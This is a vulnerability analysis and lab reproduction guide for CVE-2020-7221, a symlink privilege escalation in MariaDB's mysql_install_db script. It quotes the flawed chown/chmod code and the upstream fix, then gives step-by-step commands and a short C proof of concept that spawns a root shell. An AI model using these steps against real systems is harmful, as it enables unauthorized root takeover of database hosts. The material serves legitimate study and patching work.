




# CVE-2020-7221 CWE-59 MariaDB Privilege Escalation

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.
- **CWE-59(Improper Link Resolution Before File Access ('Link Following')):**Improper link handling before file access,

## Vulnerability Mechanism
The mysql_install_db in MariaDB 10.4.7 to 10.4.11 allows privilege escalation from MySQL user accounts to root, because the execution of chown and chmod is insecure, as evidenced by the symbolic link attack on chmod 04755 on auth_pam_tool_dir/auth_pam_tool.

The core of the vulnerability lies in `mysql_install_db` script having a fatal logical flaw in its design. When it runs with `root` privileges, it performs two operations in sequence that shouldn't happen simultaneously:

1. **Handing Over Control**: It gives ownership of the `/usr/lib/mysql/plugin/auth_pam_tool_dir/` directory to low-privileged `mysql` users, who can freely modify files in the directory;
2. **Grant Highest Privileges**: In this directory where control was just handed over, it sets up a file `auth_pam_tool` belonging to the `root` user with special SUID privileges, allowing the MySQL user to run the file with root privileges.

Any user can modify and run `auth_pam_tool` file as malicious and run it with root user privileges.

## Vulnerability Location
Analysis of MariaDB 10.4.8:

In the **scripts \mysql _install_db.sh** file, at line **481**, if $user is defined, enter this code. At line 483, ownership of directory `auth_pam_tool_dir` is handed over to $user user, which is where **vulnerability 1** lies. The software automatically executes this script during installation, meaning that after installation, MySQL users already own the directory.

Line **491**: If the $srcdir variable value is 0, processing changes the owner of auth_pam_tool file to user ID 0, i.e., the root user. However, the file's permission was later changed to `04755`, a setting with special permissions. This is where **Vulnerability 2** lies:

> `4`: Represents the SUID (Set User ID) bit. Once this bit is set, any user who executes the program will temporarily gain permission from the program owner (i.e., `root`).
>
> `755`: Represents `rwxr-xr-x`, meaning the owner can read, write, and execute, while other users can read and execute but cannot write to it.

This code **incorrectly** executes the operations "Give Directory Control" and "Grant Files Highest Privileges" in a dangerous order, thereby creating a exploitable "race conditions" time window.

```sh
# mysql_install_db.sh Line 481
if test -n "$user"
then
  # 483 lines ********** Transfer directory ownership to $user user ********** Vulnerability Point 1 *********
  chown $user "$pamtooldir/auth_pam_tool_dir" && \
  chmod 0700 "$pamtooldir/auth_pam_tool_dir"
  if test $? -ne 0
  then
      echo "Cannot change ownership of the '$pamtooldir/auth_pam_tool_dir' directory"
      echo " to the '$user' user. Check that you have the necessary permissions and try again."
      exit 1
  fi
  # 491 Row Check $srcdir Variable Length Value
  if test -z "$srcdir"
  then
    # Line 493 Set the ownership of files in the directory to root
    chown 0 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool" && \
    # 494 lines ********** Set SUID-root permission for this file ********** Vulnerability Point 2 *********
    chmod 04755 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool"
    if test $? -ne 0
    then
        echo "Couldn't set an owner to '$pamtooldir/auth_pam_tool_dir/auth_pam_tool'."
        echo " It must be root, the PAM authentication plugin doesn't work otherwise.."
        echo
    fi
  fi
  args="$args --user=$user"
fi
```

At line **138**, a circular structure used in a shell script to parse command-line arguments, where lines **144** and **152** represent controlling $user and $srcdir variables by passing args parameters while running the script.

```sh
# Scripts \mysql _install_db.sh line 138
for arg
  do
    case "$arg" in
      --force) force=1 ;;
      --basedir=*) basedir=`parse_arg "$arg"` ;;
      --builddir=*) builddir=`parse_arg "$arg"` ;;
      # 144 lines
      --srcdir=*)  srcdir=`parse_arg "$arg"` ;;
      --ldata=*|--datadir=*|--data=*) ldata=`parse_arg "$arg"` ;;
      --log-error=*)
       log_error=`parse_arg "$arg"` ;;
      --user=*)
        # 152 lines
        user=`parse_arg "$arg"` ;;
        
        # ... ...
  done
```

**In summary**, the MySQL user first deletes the auth_pam_tool and links it as a malicious file. You can use the root user to run the mysql_install_db by passing the args parameter, passing the user $user MySQL and $srcdir null. This step refreshes the permissions of the newly created auth_pam_tool file to the script settings.

Afterwards, line 483 will hand over directory ownership to the MySQL user, but the MySQL user already has this permission after installation. Later, since the $srcdir variable length is 0, it will be determined by line 491 of the code. Line 493 will set the ownership of the auth_pam_tool file to root, but at line 494 it sets permissions for the auth_pam_tool file, meaning MySQL users can also execute this file, and when executing the file, it is done with root user privileges.

## Remediation
**Readjust the order of permission settings** and add installation method judgments: **first set file permissions** (auth_pam_tool), then **let MySQL users take over the directory**. At the same time, `"$in_rpm" -eq 0` checks are added to ensure this permission setting is only executed when the source code is installed (outside of RPM or other package management environments).

1. During the packaging phase of creating `.deb` or `.rpm` installation packages, modifying `debian/rules` or other configuration files will directly "solidify" the permissions of `auth_pam_tool` files to `root` all, `04755` ( SUID) security status. Set the `auth_pam_tool`'s parent directory permission to be accessible only to the owner.

   ```sh
   if test -n "$user"
   then
     if test -z "$srcdir" -a "$in_rpm" -eq 0
     then
       # (1) Set SUID-root permission
       chown 0 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool" && \
       chmod 04755 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool"
       # (2) Then give directory permissions to $user
       chown $user "$pamtooldir/auth_pam_tool_dir" && \
       chmod 0700 "$pamtooldir/auth_pam_tool_dir"
     fi
     args="$args --user=$user"
   fi
   ```

2. During installation, add a condition to the `‎scripts/mysql_install_db.sh` file. `$in_rpm` variable will be set to `1` when the script is called by the RPM/DEB package manager. When the administrator manually executes this script, its default value is `0`, as determined by check. For all routine installations performed via `apt` or `yum`, this condition does not apply; dangerous code is skipped directly, and the auth_pam_tool file will not be re-accessed by changing permissions, thus eliminating vulnerabilities.

   ```sh
   if test -n "$user" -a "$in_rpm" -eq 0
   ```

3. `support-files/rpm/server-postin.sh` script is executed at the final stage of installation, and finally grants folder permissions to the MySQL user.

   ```sh
   chown %{mysqld_user} /usr/lib*/mysql/plugin/auth_pam_tool_dir
   ```

**However, if you repeatedly run scripts with root, the vulnerability still exists. The fixed order only prevents the process from being exploited during initialization, but it does not prevent multiple manual script executions. **

## Affected Versions
MariaDB 10.4.7 to 10.4.11

## Environment Setup
Starting the Docker environment, MariaDB version is 10.4.8, administrator is root user, password is 12345, there is a database test_db with open port 3306, and the container already contains PoC code CVE-2020-7221-PoC.c.

```txt
cpe:2.3:a:mariadb:mariadb:10.4.8:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
You need to open two command lines for the container: one for the MySQL user and the other for the root user 

1. Enter one of the container's command lines and enter the command to switch to a low-privilege MySQL user.

   ```bash
   docker exec -it mariadb-10.4.8 bash
   
   su mysql
   ```

2. Use gcc to compile PoC code and generate malicious executables.

   ```bash
   gcc ./CVE-2020-7221-PoC.c -o ./tmp/CVE-2020-7221-PoC
   ```

3. Search the entire file system for all files with SUID permissions, targeting auth_pam_tool files. Find the directory where the file is /usr/lib/mysql/plugin/auth_pam_tool_dir and enter that directory.

   ```bash
   find /* -perm -u=s -type f 2>/dev/null
   
   cd /usr/lib/mysql/plugin/auth_pam_tool_dir
   ```

4. Delete the original SUID program file auth_pam_tool as the MySQL user, enter y to confirm deletion. The existence of the vulnerability allows the MySQL user to have all permissions for this directory.

   ```bash
   rm auth_pam_tool
   ```

5. Create a symbolic link: create a new file named `auth_pam_tool` and link it to the compiled PoC program, confirming that the current user identity is still MySQL.

   ```bash
   ln -s /tmp/CVE-2020-7221-PoC auth_pam_tool
   
   id
   ```

   

6. Enter the command line of the root user of another container and run mysql_install_db script with root privileges (triggering the chmod command), passing the user parameter to mysql, regardless of errors.

   ```bash
   docker exec -it mariadb-10.4.8 bash
   
   mysql_install_db --user=mysql
   ```

   

7. Return to the MySQL user's command line and execute auth_pam_tool. Due to symbolic linking, the actual execution is a PoC program, and its internal `system("/bin/bash")` will be executed with `root` privileges, thus opening a `root` shell. Entering id shows that the current user ID has changed to uid=0 (root), successfully elevating permissions from ordinary MySQL users to the highest root privilege of the system, while retaining the group identity of the initiator (i.e., `mysql` user).

   ```bash
   ./auth_pam_tool
   
   id
   ```

   

8. Enter the exit command to exit.

## PoC Analysis

```c
#include <unistd.h>
#include <stdlib.h>

int main(void){
    // When this program is executed in the context of SUID-root, these two lines of code are meant to try to fully "solidify" the current process's identity as root user and root group
    setuid(0);
    setgid(0);
    // After successfully changing the identity to root, this line of code will immediately open a /bin/bash shell
    system("/bin/bash");
    return 0;
}
```

## References
[NVD - CVE-2020-7221](https://nvd.nist.gov/vuln/detail/CVE-2020-7221#range-15167988)

[mariadb (CVE-2020-7221) privilege escalation vulnerability analysis](https://paper.seebug.org/1127/)

[rpm/deb and auth_pam_tool_dir/auth_pam_tool · MariaDB/server@9d18b62](https://github.com/MariaDB/server/commit/9d18b6246755472c8324bf3e20e234e08ac45618#diff-eb6507e912b5bc16c616f9eec6c73842a481c366b76fb6d97bb124f821ef139d)
